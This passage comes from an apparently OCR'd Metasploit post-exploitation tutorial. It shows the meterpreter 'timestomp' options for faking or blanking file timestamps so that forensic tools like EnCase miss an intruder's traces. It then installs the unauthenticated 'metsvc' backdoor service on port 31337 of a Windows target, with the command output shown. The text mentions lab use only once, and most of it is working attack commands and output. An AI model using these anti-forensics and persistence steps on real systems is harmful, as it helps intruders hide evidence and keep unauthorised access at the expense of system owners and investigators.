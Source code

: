 ### Modifying file attributes

If you left traces on the filesystem, you can modify or erase file attributes to conceal your footprints:

``` plain
meterpreter > timestomp -h

Usage: timestomp OPTIONS file_path

OPTIONS:

    -a <opt>  Set the "last accessed" time of the file
    -b        Set the MACE timestamps so that EnCase shows blanks
    -c <opt>  Set the "creation" time of the file
    -e <opt>  Set the "mft entry modified" time of the file
    -f <opt>  Set the MACE of attributes equal to the supplied file
    -h        Help banner
    -m <opt>  Set the "last written" time of the file
    -r        Set the MACE timestamps recursively on a directory
    -v        Display the UTC MACE values of the file
    -z <opt>  Set all four attributes (MACE) of the file
```

### Backdooring the system

If you want to maintain your presence on the target system, Metasploit has two types of backdoors that can be installed as a service on the target. However, keep in mind that they don't have any authentication, so best not leave them around on computers outside a lab environment - you don't want to open the door for everyone else in the world. 

#### Metsvc

This is how Metsvc looks like:

``` plain
meterpreter > run metsvc -h

OPTIONS:

    -A        Automatically start a matching exploit/multi/handler to connect to the service
    -h        This help menu
    -r        Uninstall an existing Meterpreter service (files must be deleted manually)

meterpreter > run metsvc
[*] Creating a meterpreter service on port 31337
[*] Creating a temporary installation directory C:\Users\wingoat\AppData\Local\Temp\zMWkKgMkxJRdgpp...
[*]  >> Uploading metsrv.x86.dll...
[*]  >> Uploading metsvc-server.exe...
[*]  >> Uploading metsvc.exe...
[*] Starting the service...
	 * Installing service metsvc
 * Starting service
Service metsvc successfully installed.
```
